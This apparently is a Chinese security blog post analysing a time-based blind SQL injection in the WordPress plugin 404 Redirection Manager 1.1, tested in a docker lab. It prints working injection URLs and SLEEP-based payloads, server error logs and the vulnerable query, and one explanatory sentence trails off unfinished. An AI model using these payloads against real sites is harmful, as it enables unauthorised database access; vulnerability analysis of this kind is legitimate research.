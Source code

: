 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache，数据库：MySQL 5.7.15，WordPress版本：4.3.6。

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<pre><code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code></pre>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>（这里多了一个<code>'</code>）,借助后台日志，我尝试着找到了这段注入执行的语句。

<pre><code>
[Sat Dec 24 08:50:37.231873 2016] [:error] [pid 173] [client 10.10.79.136:64753] WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex='' and (redirect_from='/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' or redirect_from='/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' ) \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='S' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code></pre>

<pre><code>
[Sat Dec 24 08:50:37.233162 2016] [:error] [pid 173] [client 10.10.79.136:64753] WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=5') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='S' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code></pre>

有了这些，就可以方便我在源码中发现问题所在了，引起注入的代码：

![sqli-code](http://o8lgx56x1.bkt.clouddn.com/blog/img/wp-404-plugin-sqlicode-1.png)

$wpdb是WordPress 数据库访问抽象对象，get_row()是WordPress中一个执行数据库查询并返回结果的函数。

拿其中一个来说，拼接出来的SQL语句是这样的：

<pre><code>select * from $table_name where enabled=1 
and cat='link' and blog='" . get_current_blog_id() . "'
and regex<>'' and $permalink_regex_options 
order by LENGTH(regex) desc </code></pre>

其中变量<code>$permalink_regex_options</code>指向了语句<code>('$permalink' regexp regex or '$permalink_alternative'  regexp regex )</code>。

顺着<code>$permalink</code> 和 <code>$permalink_alternative</code> 两个变量



综上，可以整理出完整在数据库中执行的语句：

<pre><code>select * from wp_WP_SEO_Redirection where enabled=1 
and cat='link' and blog='1' and regex<>'' 
and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) 
AND ('SQL'='SQL' regexp regex or '/?p=1') 
AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) 
AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc</code></pre>

可以发现，这里<code>sleep</code>执行了两次，所以执行的时间应该在10秒以上。从数据库上跑一下，成功了，时间也没问题。
![pic](www.baidu.com)

再精简一下注入语句<code>') AND (SELECT * FROM (SELECT(IF(LENGTH(database())>32,SLEEP(5),0)))abc) AND ('SQL'='SQL</code>


